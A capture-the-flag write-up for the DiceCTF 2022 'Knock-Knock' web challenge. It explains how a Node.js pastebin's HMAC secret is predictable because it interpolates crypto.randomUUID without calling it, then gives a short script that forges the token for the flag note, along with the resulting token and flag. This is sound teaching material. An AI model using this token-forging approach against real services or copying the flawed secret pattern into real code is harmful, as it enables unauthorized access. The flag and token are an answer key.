 ```yaml
---
layout: single
title: Knonk-Knock - DiceCTF 2022 [Web]
excerpt: "Knock knock? Who’s there? Another pastebin!!"
date: 2022-2-07
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: 
categories:
  - DiceCTF
  - CTF Jeo
tags:  
  - CTF
---
```


Knock knock? Who's there? Another pastebin!!

## Code Review | index.js

```js
const crypto = require('crypto');

class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}

const db = new Database();
db.createNote({ data: process.env.FLAG });

const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

app.post('/create', (req, res) => {
  const data = req.body.data ?? 'no data provided.';
  const { id, token } = db.createNote({ data: data.toString() });
  res.redirect(`/note?id=${id}&token=${token}`);
});

app.get('/note', (req, res) => {
  const { id, token } = req.query;
  const note = db.getNote({
    id: parseInt(id ?? '-1'),
    token: (token ?? '').toString(),
  });
  if (note.error) {
    res.send(note.error);
  } else {
    res.send(note.data);
  }
});

app.listen(3000, () => {
  console.log('listening on port 3000');
});
```

Let's take it from beginning

#### Where flag is stored?
```js
const db = new Database();
db.createNote({ data: process.env.FLAG });
```
When the server starts a new Database object is created and also a note which contains the flag.
The flag is stored at `notes[0]` because `this.notes = [];` is an empty array consequently the flag will be stored at `notes[0]`.

#### Explain Constructor & createNote
```js
constructor() {
    this.notes = []; 
    this.secret = `secret-${crypto.randomUUID}`;
  }
```
```js 
  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }
```
At constructor we have an array notes and a secret key. At secret variable the secret key starts with `secret-` but the problem is ${crypto.randomUUID}. The UUID part does not use a random uuid as the secret but the function itself i.e. the secret value is known.


## Final Exploit
```js
const crypto = require('crypto');

function generateToken(id,secret) { 
    return crypto
      .createHmac('sha256', secret) 
      .update(id.toString()) 
      .digest('hex'); 
  }

var id = 0; // Flag id
var secret = `secret-${crypto.randomUUID}`;

console.log(secret);
console.log(generateToken(id,secret));

```

Now, run the nodejs script 

![](https://files.bitwarriors.net/images/knock-knock/knock.PNG)

and use the token  7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264 to grab the flag dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}.

![](https://files.bitwarriors.net/images/knock-knock/knock1.PNG)


